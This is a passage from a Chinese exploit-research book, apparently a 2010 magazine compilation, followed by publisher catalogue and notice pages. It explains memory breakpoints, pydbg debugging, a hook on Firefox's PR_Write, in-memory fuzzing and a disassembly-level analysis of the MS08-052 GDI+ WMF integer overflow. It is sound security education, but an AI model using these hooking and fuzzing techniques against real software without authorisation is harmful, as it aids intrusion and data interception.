### 4. 内存断点

内存断点会触发 `GUARD_PAGE_EXCEPTION`，正如前面讨论的（MSDN 的一部分：调试事件结构）。这个断点会在进程执行时进行执行、读或者写操作时触发。

为了设立这类型的断点，我们要首先知道操作系统能分配的默认页大小。一旦默认页大小知道了，我们可以设立权限。我们可以用 `kernel32.dll` 中的 `GetSystemInfo()` 调用来找默认页大小，该调用会返回用系统信息构成的结构：

```c
Void WINAPI GetSystemInfo(
  out LPSYSTEM_INFO lpSystemInfo
);

typedef struct _SYSTEM_INFO {
  union {
    DWORD dwOemId;
    struct {
      WORD wProcessorArchitecture;
      WORD wReserved;
    };
  };
  DWORD dwPageSize;
  LPVOID lpMinimumApplicationAddress;
  LPVOID lpMaximumApplicationAddress;
  DWORD_PTR dwActiveProcessorMask;
  DWORD dwNumberOfProcessors;
  DWORD dwProcessorType;
  DWORD dwAllocationGranularity;
  WORD wProcessorLevel;
  WORD wProcessorRevision;
} SYSTEM_INFO;
```

`dwPageSize` 会返回系统能分配的默认页大小。在这个调用之后，我们需要知道基地址加上默认页地址的大小，以便能够将调试事件附加进去监听。

为了找基地址，我们又要找 Windows 的 API `VirtualQueryEx()` 帮忙：

```c
SIZE_T WINAPI VirtualQueryEx(
  in HANDLE hProcess,
  in_opt LPCVOID lpAddress,
  out PMEMORY_BASIC_INFORMATION lpBuffer,
  in SIZE_T dwLength
);

typedef struct _MEMORY_BASIC_INFORMATION {
  PVOID BaseAddress;
  PVOID AllocationBase;
  DWORD AllocationProtect;
  SIZE_T RegionSize;
  DWORD State;
  DWORD Protect;
  DWORD Type;
} MEMORY_BASIC_INFORMATION, *PMEMORY_BASIC_INFORMATION;
```

`VirtualQueryEx()` 返回 `MEMORY_BASIC_INFORMATION` 结构，里面包含了内存的基地址。`lpAddress` 是我们要设置断点的地方。为了实际上保护内存，需要 `BaseAddress` 和 `dwPageSize`。我们然后可以用 `VirtualProtectEx()` 来保护内存空间，该函数允许我们修改不相容进程的进程内存：

```c
BOOL WINAPI VirtualProtectEx(
  in HANDLE hProcess,
  in LPVOID lpAddress,
  in SIZE_T dwSize,
  in DWORD flNewProtect,
  out PDWORD lpflOldProtect
);
```

我们将会用 `lpAddress` 来调用 `VirtualProtectEx()`，`BaseAddress` 加上 `dwSize` 就是页大小。当我们的进程试着访问我们保护的内存的任意内存地址，它会触发访问违例和 `GUARD_PAGE_EXCEPTION`。我们可以捕捉这个异常，然后处理基于这种异常类型的事件。

## 用 Python 的智能调试的介绍

今天我们知道，制作一个可靠的 exploit 越来越复杂。随着在 Windows XP SP2 中引入的第一个堆保护机制（safe unlinking、/GS 标志、DEP 和 Canary Word）到今天的 Windows Vista（ASLR、GS 标志、堆保护等），堆保护进入硬件和操作系统的设计当中，排除了之前用 lookaside 表来 anti-exploitation 的技术。

这个领域的研究仅限制在一些国际组织，像 VUPEN、Immunity 和 iDefense。

我们现在面临的问题是，无论何时我们谈 exploit 的发展，我们用的系统知识和调试技术或多或少是废弃的，为什么这样？因为保护机制变得越来越复杂。随着复杂化，我们不能浪费时间在解决在访问、读、写操作时设置一个断点、停止进程和找错误。

我们需要更直观些。我将会讨论用 Python 做基石来打造自己的调试器，它能够只寻找我们要读的内存。定位于写一个可靠的 exploit 的调试器，必须在堆分析、精巧制作输入、内存操作和协议分析上找到很好的平衡。另一个重要特征是用轻量级调试器来做复杂分析，并且在做复杂分析时不会破坏我们的结果。同时另外一个重要特征是和 fuzzer 保持连通性。

调试和读取线程上下文是另一个重要的功能。这是 Python 用 ctypes 库和 pydbg 吸引人的地方。

### 1. 软调试

在这节里，将会纯粹用 ctypes 来写一个软中断的 POC，接着是一个 pydbg 代码实现同样的功能。这里需要说明的一点是在开始理解 pydbg 之前，你必须知道一个调试器是如何工作的。

```python
breakpoints = {}

def bp_set(self, address):
    print 'Breakpoint at: 0x%08x' % address
    if not self.breakpoints.has_key(address):
        old_protect = c_ulong(0)
        kernel32.VirtualProtectEx(self.h_process,
                                  address,
                                  1,
                                  PAGE_EXECUTE_READWRITE,
                                  byref(old_protect))
        original_byte = self.read_process_memory(address, 1)
        if original_byte != False:
            if self.write_process_memory(address, "\xCC"):
                self.breakpoints[address] = (original_byte)
                return True
        return False

# 用 pydbg
import pydbg

dbg = pydbg()
dbg.attach(pid)
```

```python
dbg.bp_set(self.address, break_handler)
dbg.run() # start looking for breakpoints
# After every thing is over
dbg.detach()
```

```python
if available != [address, length, condition]:
    return True
```

### 2. 硬调试

在这节里，将会用 ctypes 来写一个硬中断的 POC。我们的真谛是“眼见为实”，并且声明如果不知道硬件调试是如何工作的，则不能理解硬调试。当然我还是会用 pydbg 来展示我的成果。

用 pydbg：

```python
dbg = pydbg()
dbg.attach(pid)
dbg.bp_set_hw(self.address, break_handler)
dbg.run() # start looking for breakpoints
# After every thing is over
dbg.detach()
```

```python
class debug:
    self.hardware_breakpoints = {}
    def bp_set_hw(self, address, length, condition):
        # ...
        if length not in (1,2,4):
            return False
        if condition not in (HW_ACCESS, HW_EXECUTE, HW_WRITE):
            return False
        # 查找可用槽位并设置 DR 寄存器
        # ...
        kernel32.SetThreadContext(h_thread, byref(context))
```

### 3. 挂钩

这节会分成两小节：我们自己的软和硬挂钩。我们在这里只讨论软挂钩。软挂钩：在软挂钩中，我们附加增加的函数指针：

```python
from pydbg import *
from pydbg.defines import *
import struct
import utils
import sys

dbg = pydbg()
def hook_install(dbg, args):
    return DBG_CONTINUE

for (pid, name) in dbg.enumerate_processes():
    if name.lower() == "firefox.exe":
        hooks = utils.hook_container()
        dbg.attach(pid)
        hook_address = dbg.func_resolve_debuggee("nspr4.dll", "PR_Write")
        if hook_address:
            hooks.add(dbg, hook_address, 2, hook_install, None)
            dbg.run()
```

硬挂钩：硬挂钩是更高级的技术，它对进程内存的影响较小，因为我们的挂钩代码是直接用 x86 汇编写的。与软挂钩情形一样，在碰到断点时，增加一小块代码运行钩子再返回正常执行路径。Immunity Debugger 提供了 `hippie.py` 脚本，能在 `RtlHeapAlloc()` 和 `RtlHeapFree()` 里实现硬挂钩。

## 用 Python 做调试器的益处

我们要知道的是为什么我们要考虑 Python？我能说的是我们学 Python 就是为了减轻 exploit 研究和逆向工程的努力。Python 的库是这样的：

- **ctypes**：提供给我们 C 类型编程语言和数据类型的接口来调用 DLL 中的函数；
- **Pydbg**：提供给我们脚本调试库；
- **Utils**：提供给我们崩溃分析函数的挂钩库；
- **IDAPython**：Python 控制 IDA Pro 的时机到了；
- **immlib**：Immunity Debugger 提供给 OllyDbg 的库，用 Python；
- **PyEmu**：它像运行一个进程而实际上没有运行。用这个库我们可以在特定环境下测试代码是如何表现的。由于这个库现在还不成熟，只有一些 Intel 机器码在里面。但它是免费的，我们可以玩玩；
- **PeachFuzz**：基于 Python 的 fuzzer，有超过 700 种已知 exploit 的启发法。

连同这些 Python 提供的强大的库，它也给我们 fuzz 提供支持。由于一代代的 fuzzer 和你自己的 fuzzer 可以用 Python 轻松编写。

## 内存 Fuzzing 技术

这种 fuzzing 技术的方法吸引了很少的公共注意力，而且没有完全概念验证的工具发布过。这种方法的先决条件是低层次的汇编语言和进程内存分布知识。

在文件格式 fuzzing 和网络 fuzzing 中，我们产生改变特定字段的数据和观察程序行为的整体视图。这样我们能通过任意媒介文件或者网络来传输数据到目标程序。

这数据是通过二进制格式解析的，并且程序是二进制级别解析的。这一切是发生在目标二进制文件里的汇编指令中。简而言之，我们将 fuzzer 从进程外部移动进程当中。

目标是改变字段，然后看它对二进制文件里的二进制代码的影响。内存 fuzzing 技术从字面上提示是改变已经在二进制内存中的数据。这个改变只适用于用户控制的内存的特定节，和那个我们想看系统如何对改变进行反应的地方。如图 1 所示。


图 2 虚拟内存分布

在开始前，我们先复习下：

- 虚拟空间：我们知道 32 位系统的虚拟地址空间是 4GB。这个虚拟地址空间被分为两部分，用户空间（`0x00000000-0x7fffffff`）和内核空间（`0x80000000-0xffffffff`）。
- ……的内存模式加载进这个虚拟空间如是连续的而不是分段的，纯粹是性能原因。
- 页：页的概念是操作系统的基础。一页是虚拟内存和物理内存之间的地址映射，并且是物理地址能够分配给虚拟地址的最小数量空间。典型的 Windows 操作系统有一个 4096 字节大小的默认页。Windows 在页初始化设置时有特定的页访问选项，可以在 Wikipedia: Paging 和 MSDN: `VirtualAlloc()` 中有更详细的描述。如图 3 所示。


图 3

我们可以看到目标程序有很多函数是从函数 1 一直到函数 3 的。现在这里是 fuzzer 的工作原理：寻找通过任意 I/O 操作输入的数据（存在堆或者栈里，也可能更小的数据位置，根据类型和内容而定，或者直接给程序处理）传给函数 1 来解析。

举个例子，堆 2 的数据跟函数 2 的数据有关，堆 3 的数据跟函数 3 的有关。我们想 fuzz 函数 2a，为了做这个，我们必须操作数据传给函数 2a。但是一旦数据已经传递给这个函数并且分析，我们没办法回头或者改动一些数据重试，直到程序运行完。

这里内存 fuzzing 技术就能派上用场。Windows kernel32 API 是如此令人印象深刻，以致我们不能把它们忽略。我们要找一个 API 看它是否能够用来倒回整个进程。

我们已经找到了一个解决方法。在开始讨论之前，我必须指出一些我们会描述跟进程上下文有关的 Windows API 调用（上下文意味着所有跟线程有关的信息等，寄存器和它们的值、线程 ID 等）。

Windows 提供了 `GetThreadContext` 和 `SetThreadContext` 函数来得到或者设置线程上下文。

```c
BOOL WINAPI SetThreadContext(
    _in HANDLE hThread,
    _in const CONTEXT* lpContext
);

BOOL WINAPI GetThreadContext(
    _in HANDLE hThread,
    _inout LPCONTEXT lpContext
);
```

在得到有关线程上下文的信息之后，我们将用 pydbg 来复制所有进程里线程的数据（栈 + 堆 + 所有的上下文结构）。我们会运行我们的 fuzzer，当访问到函数 2 时，我们将在那点中断进程并且获取所有进程的快照，然后继续运行程序直到目标函数“函数 2a”已经返回结果。然后重新存储我们的进程……魔术发生了！我们用先前的状态倒退到函数 1。

一个简单的内存 fuzzer 的算法：

```
要 fuzz 的函数
函数（数据）{
  ...
  in_mem_fuzz 函数
  IF 遇到断点是函数末尾
  ...
}
```

- If 获取完快照 then
  - 存储现场
  - 释放先前分配的地址
- If 碰到断点 == 函数开头
  - 获取快照
  - 在函数末尾设置断点
  - 地址 = 虚拟分配（数据大小）
  - 改变二级变量（数据）
  - 将改变的数据写入地址
  - 改变 esp+4 变量到我们将改变数据位置
  - 进程快照
  - 运行函数
- 访问违规函数：
  - 打印访问违规概要
  - 当遇到访问违规时，重新存储过程，开始用 x86 模拟器来仿真访问违规的原因

Pydbg 是了不起的，在最后它保存了要改变的上下文 + 栈内存 + 堆内存的信息。这不是快照的完美实现，但是确实有效。如果你对捕捉所有数据的进程快照，并且想 dump 或者无论何时想重新存储感兴趣，那么你要用 CreateToolHelp32Snapshot。

```c
HANDLE WINAPI CreateToolhelp32Snapshot(
  __in DWORD dwFlags,
  __in DWORD th32ProcessID
);
```

Pydbg 用 process_restore() 函数来重新存储进程快照的 dump。因此在重新存储完进程之后，我们将修改目标堆并且重新运行程序。这样，一个 fuzz 我们想要 fuzz 的函数和数据的 fuzzer 就好了。

## 演示：MS08-052 GDI+ 漏洞

GDIPLUS.DLL 版本 5.1.3102.2180

出于演示的目的，我们可以用很多漏洞，但是我喜欢把目光放在 Microsoft 安全公告上的 MS08-052 GDI+ 漏洞上。我们要讨论的特别漏洞是 WMF 文件格式和整数类型溢出。这个漏洞很可能是不能利用的，由于我们只控制了 2 字节的数据，这是很大的限制。

Wmf 文件有很多叫做 wmf 记录的记录条目。每个条目包含了特定类型的数据，如 DeleteObject、Polygon、SelectObject 等。一个这样的数据是 PolyPolygon，如图 4 所示。

（图4）WMF 记录结构表，包含 Name / Value / Start / Size / Color 等字段，并高亮 PolyPolygon 相关项。

图 4

我们可以从二进制分析中看到，在最新版本的 Gdiplus.dll 中 PolyPolygon 函数已经改变，我们假设它就是包含了先前的未经证实的代码的函数。如图 5 所示。

（图5）函数列表/反汇编列表截图，突出 PolyPolygon 相关行。

图 5

假设 PolyPolygon 在早期版本的 Gdiplus.dll 中已经被妥协之后。我们开始找到打补丁和未打补丁时 PolyPolygon 函数之间的不同点。可利用的 Gdiplus.dll 显示的 PolyPolygon 函数，如图 6 所示。


图 6

打补丁后的 Gdiplus.dll 版本上 PolyPolygon 函数的改变，如图 7 所示。


图 7

我们可以从二进制分析中看到，在最新版本的 Gdiplus.dll 中 PolyPolygon 函数已经改变……这些函数的二进制分析。整数溢出，然后一个小的缓冲区被分配：

```asm
mov eax, [ebp+Points]
```

整数溢出可能发生在这里：

```asm
lea eax, [edi+eax*2] ; number of polygons + 2 * number of points
shl eax, 2 ; *4
push eax
mov ecx, esi
call ?CreateRecordToModify@MfEnumState@@IAEHH@Z ; MfEnumState::CreateRecordToModify(int)
```

在做一点小的逆向工程之后我们看到 PolyPolygon 记录的数据指针通过特定类型被访问。然后目的缓冲区在这里也被访问。

```asm
mov ebx, [esi+5Ch] ; 数据指针
movzx ebx, word ptr [ebx+eax*2+2] ; 从 PolyPolygon 读数据
mov [ecx+eax*4], ebx ; 目的记录
inc eax
cmp eax, edi
```

```asm
j short @loop_aPointsPerPolygon

@loop_points:
movsx ebx, word ptr [eax]
mov [edx], ebx
movsx ebx, word ptr [eax+2]
mov [edx+4], ebx
add edx, 8 ; 目的缓冲区的下一个索引
add eax, 4 ; 源缓冲区的下一个索引
dec [ebp+Points]
jnz short @loop_points ; 更多的指针？
```

因此我们可以在缓冲区上触发和索引错误。一个包含一个 PolyPolygon 记录（0x0538 类型）的 WMF 文件可以用来触发这个 bug。从突出的测试我们看到，在没有检查的情况下，polygon 总数的 4 倍和 polygon 总数的 8 倍能被控制成一个更大的值。因此一个缓冲区溢出会被触发，结果会大于 0x7fffffff。但是正如我们之前陈述的那样，代码不能被执行，因为我们只能控制缓冲区上的 2 字节数据。

# 安全系列·经典作品集


- 《加密与解密（第三版）》  
  段钢 编著  
  定价：59.00元  
  内容简介：本书以加密与解密为切入点，讲述了软件安全领域许多基础知识和技能，如调试技能、逆向分析、加密保护、外壳开发、虚拟机设计等。


- 《黑客反汇编揭秘：第二版》  
  【英】Kris Kaspersky（克里斯·卡巴斯基）著  
  谭国会 译  
  定价：65.00元  
  内容简介：本书并非单纯“破解代码”手册，而是围绕底层技术与自由主义学习精神展开。


- 《大中型网络入侵要案直击与防御》  
  肖遥 编著  
  定价：79.00元  
  内容简介：以真实攻击与防护事件为线索，讲述攻击细节、常见防护手法和漏洞位置等。


- 《黑客大曝光：VoIP安全机密与解决方案》  
  【美】恩德勒（Endler, D.）、【美】科利尔（Collier, M.）著  
  李祥军、周晋、魏水平 译  
  定价：69.00元  
  内容简介：基于企业 VoIP 通信网络，结合攻击工具与案例讲解 VoIP 攻击方式及防护对策。


- 《小小黑客之路：黑客工具、攻防及防火墙编程入门》  
  葛莹 主编  
  夏森、田庭、陈沁言、陈树林 著  
  定价：59.00元  
  内容简介：从入门到进阶覆盖黑客攻防知识，含 Windows API、平台开发与案例分析。


- 《黑客攻防实战编程》  
  邓吉 编著  
  定价：48.00元  
  内容简介：从“攻”“防”视角讨论信息安全热点，涵盖 Web 入侵、木马、加密解密等编程实战。


- 《无线网络安全攻防实战进阶》  
  杨哲 编著  
  定价：69.00元  
  内容简介：延续无线网络安全攻防实战主题，分析无线网络攻击与安全技术多个方面。


- 《Windows Server 2003系统安全管理》  
  国家反计算机入侵和防病毒研究中心 组编  
  王淑江、刘晓辉、张奉亨 编著  
  定价：45.00元  
  内容简介：以 Windows Server 2003 为背景，讲解系统安全设置与完整解决方案。


- 《Windows 7安全指南》  
  刘晖、汤普、张诚 等编著  
  定价：50.00元  
  内容简介：介绍 Windows 7 在不同场景的安全选项、用途与配置建议，也适用于其他主流客户端系统。


- 《Linux服务器安全策略详解（第2版）》  
  曹江华 著  
  定价：89.00元  
  内容简介：围绕服务器与网站安全威胁，系统讲解 Linux 服务器安全策略与管理要点。

# 外版典藏·经典作品集


- 《程序开发心理学（银年纪念版）》  
  【美】Gerald M. Weinberg 著，韩江 译  
  定价：69.00元  
  内容简介：本书从程序开发过程中的人为因素切入，提出将程序开发作为一种人类行为来考察的观点，是软件工程领域经典著作。


- 《Effective C++：改善程序与设计的55个具体做法（第3版）》  
  【美】Scott Meyers 著，侯捷 译  
  定价：65.00元  
  内容简介：本书总结了 C++ 编程中的关键实践与设计经验，以清晰条款讲解高质量 C++ 开发方法，影响深远。


- 《技术领导之路：全面解决问题的途径》  
  【美】Gerald M. Weinberg 著，余晟 译  
  定价：69.00元  
  内容简介：围绕成功解决问题所需的能力，提出 MOT（激励）、组织、创新等核心技能，帮助技术人员成长为领导者。


- 《程序员修炼之道：从小工到专家》  
  【美】Andrew Hunt，David Thomas 著，马维达 译  
  定价：55.00元  
  内容简介：从个人责任、职业发展到编码实践，覆盖软件开发中的通用原则与最佳实践，是程序员成长经典读物。


- 《完美软件——对软件测试的各种幻想》  
  【美】Gerald M. Weinberg 著，宋锐 译  
  定价：55.00元  
  内容简介：结合作者长期软件行业经验，讨论测试、管理与开发中的误区与实践，对软件开发者心理研究尤为深入。


- 《UNIX编程艺术》  
  【美】Eric S. Raymond 著，姜宏、何源、蔡晓骏 译  
  定价：69.00元  
  内容简介：系统阐述 Unix 设计哲学与工程实践，涵盖开源文化、设计原则与经验方法，是 Unix 领域重要著作。


- 《编码：隐匿在计算机软硬件背后的语言》  
  【美】Charles Petzold 著，左飞、薛佟佟 译  
  定价：55.00元  
  内容简介：以通俗方式讲述计算机工作原理，从电报码到现代计算体系，深入浅出地解释“代码”背后的思想。


- 《海量数据库解决方案》  
  【韩】李华植 著，郑保卫、盖国强 译  
  定价：69.00元  
  内容简介：围绕海量数据场景下的数据库架构与实践，提供可落地的方法与案例，帮助构建高性能数据系统。


- 《黑客反汇编揭秘：第二版》  
  【俄】Kris Kaspersky 著，谭明金 等译  
  定价：65.00元  
  内容简介：从逆向工程与反汇编角度解析底层程序行为，讨论安全技术与黑客文化，是相关领域代表性读物。


- 《代码大全（第2版）》  
  【美】Steve McConnell 著，金戈、汤凌、陈硕、张菲 译  
  定价：98.00元  
  内容简介：全面讲解软件构建过程，从编码质量、设计思维到工程管理系统展开，是软件开发经典参考书。

# 优秀原创·经典作品集


- 《Windows 内核情景分析——采用开源代码 ReactOS（上、下册）》  
  毛德操 著  
  定价：190.00元  
  内容简介：全书从“内存管理”“进程”“进程间通信”“设备驱动”等多个方面进行分析介绍，所有分析都以 ReactOS 的源码（以及部分微软公开源码）为依据。


- 《构建高性能Web站点》  
  郭欣 著  
  定价：59.00元  
  内容简介：围绕高性能 Web 站点构建，从网络传输、并发处理、页面缓存、脚本解释速度、组件分离、本地缓存等方面进行阐述。


- 《天书夜读：从汇编语言到Windows内核编程》  
  谭文、邓坚磊 著  
  定价：45.00元  
  内容简介：从基本的 Windows 程序与汇编指令切入，讲述 Windows 内核编程、调试以及内核方法。


- 《软件架构的艺术》  
  李涛、吴志海 著  
  定价：59.00元  
  内容简介：聚焦软件架构行业，介绍企业应用系统架构的基本原理、方法与实践经验。


- 《Orange'S：一个操作系统的实现》  
  于渊 著  
  定价：69.00元（含光盘1张）  
  内容简介：从引导扇区代码出发，逐步实现操作系统框架，强调实践路径。


- 《嵌入式系统Linux内核开发实战指南（ARM平台）》  
  于洪辉 编著  
  定价：168.00元（配光盘1张）  
  内容简介：围绕 ARM 平台嵌入式 Linux 开发，覆盖启动、内核与驱动等主题。


- 《Windows驱动开发技术详解》  
  张帆、史彩成 等 著  
  定价：65.00元（含光盘1张）  
  内容简介：系统介绍 Windows 驱动开发方法与调试技巧，覆盖 NT/WDM 驱动模型与典型应用。


- 《轻量级Java EE企业应用实战——Struts 2+Spring+Hibernate整合开发》  
  李刚 著  
  定价：89.00元  
  内容简介：介绍 Java EE 三大开源框架（Struts 2、Spring、Hibernate）及其整合开发实践。


- 《Oracle数据库精讲与疑难解析》  
  Oracle DBA 赵振平 编著  
  定价：128.00元  
  内容简介：分章节详解 Oracle 数据库核心知识与应用实践。


- 《VC++深入详解》  
  孙鑫、余安萍 编著  
  定价：89.00元  
  内容简介：从实战出发深入讲解 Windows 程序框架、MFC、网络编程、进程通信、ActiveX、HOOK 等主题。

# 《黑客防线》2010 合订本（下半年）读者交流区

尊敬的读者：

感谢您选择我们出版的图书，您的支持与信任是我们持续上升的动力。为了使您能通过本书更透彻地了解相关领域，更深入地学习相关技术，我们将特别为您提供一系列后续的服务，包括：

- 提供本书的修订和升级内容、相关配套资料；
- 本书作者的见面会信息或网络视频的沟通活动；
- 相关领域的培训优惠等。

您可以任意选择以下四种方式之一与我们联系，我们都将记录和保存您的信息，并给您提供不定期的信息反馈。

- 在线提交  
  登录 www.broadview.com.cn/12747，填写本书的读者调查表。
- 电子邮件  
  您可以发邮件至 jsj@phei.com.cn 或 editor@broadview.com.cn。
- 读者电话  
  您可以直接拨打我们的读者服务电话：010-88254369。
- 信件  
  您可以写信至如下地址：北京万寿路173信箱博文视点，邮编：100036。

您还可以告诉我们更多有关您个人的情况，及您对本书的意见、评论等，内容可以包括：

- （1）您的姓名、职业、您关注的领域、您的电话、E-mail 地址或通信地址；
- （2）您了解新书信息的途径、影响您购买图书的因素；
- （3）您对本书的意见、您读过的同领域的图书、您还希望增加的图书、您希望参加的培训等。

如果您在后期想停止接收后续资讯，只需写邮件“退订 + 需退订的邮箱地址”发送至邮箱：market@broadview.com.cn 即可取消服务。

同时，我们非常欢迎您为本书撰写书评，将您的切身感受变成文字与广大书友共享。我们将挑选特别优秀的作品转载在我们的网站（www.broadview.com.cn）上，或推荐至 CSDN.NET 等专业网站上发表，被发表的书评的作者将获得价值50元的博文视点图书奖励。

更多信息，请关注博文视点官方微博：http://t.sina.com.cn/broadviewbj。

我们期待您的消息！

博文视点愿与所有爱书的人一起，共同学习，共同进步！

# 反侵权盗版声明

电子工业出版社依法对本作品享有专有出版权。任何未经权利人书面许可，复制、销售或通过信息网络传播本作品的行为；歪曲、篡改、剽窃本作品的行为，均违反《中华人民共和国著作权法》，其行为人应承担相应的民事责任和行政责任，构成犯罪的，将被依法追究刑事责任。

为了维护市场秩序，保护权利人的合法权益，我社将依法查处和打击侵权盗版的单位和个人。欢迎社会各界人士积极举报侵权盗版行为，本社将奖励举报有功人员，并保证举报人的信息不被泄露。

- 举报电话：（010）88254396；（010）88258888
- 传真：（010）88254397
- E-mail：dbqq@phei.com.cn
- 通信地址：北京市万寿路173信箱 电子工业出版社总编办公室
- 邮编：100036